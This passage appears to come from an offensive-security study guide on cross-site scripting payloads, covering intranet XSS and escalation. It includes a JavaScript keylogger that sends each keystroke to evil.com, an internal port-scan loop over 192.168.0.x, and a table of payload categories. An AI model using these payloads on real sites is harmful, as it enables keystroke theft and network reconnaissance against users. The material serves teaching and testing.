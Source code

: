 * **Internal XSS in intranet:**

  * Triggered via company email
  * Runs in internal admin panel
  * May hit machines using lower browser security zones

> 💡 Corporate networks = goldmine for XSS chaining (XSS → RCE via trusted IE zones)

---

### 5. 🧪 **Escalating the Client-Side Attack**

**Goal:** Use XSS as a pivot to do deeper evil within the client’s browser/network
**Logic:** Abuse browser APIs or network visibility

#### 💀 Advanced Payloads:

* **Keylogging:**

```js
document.onkeypress = function(e){ 
  fetch('http://evil.com/log?key=' + e.key); 
};
```

* **Internal port scan:**

```js
for(let i=0; i<100; i++) {
  fetch(`http://192.168.0.${i}:80`).then(...);
}
```

* **Fingerprinting victim’s network / browser config**
* **Webcam/mic access** (via malicious iframe + permission trickery)

> 💡 These go beyond the app — they’re about client exploitation.

---

## 🧱 Comparison Table of Payload Categories

| Category               | Purpose                             | Requires Interaction? | Detection Risk | Real-World Usage |
| ---------------------- | ----------------------------------- | --------------------- | -------------- | ---------------- |
| Virtual Defacement     | Fake UI / disinfo                   | No                    | Low            | Misinformation   |
| Trojan Functionality   | Credential/card theft               | Yes                   | Medium         | Phishing         |
| Inducing Actions       | Mass exploitation (e.g., promote)   | No                    | High           | Worms, spam bots |
| Exploit Trust          | Leverage browser-level trust        | No                    | Very High      | RCE via IE, DOM  |
| Client-Side Escalation | Attack user’s browser/local network | No                    | High           | Recon, keylog    |

---

## ⚔️ Practical Lab Tip (Optional Task)
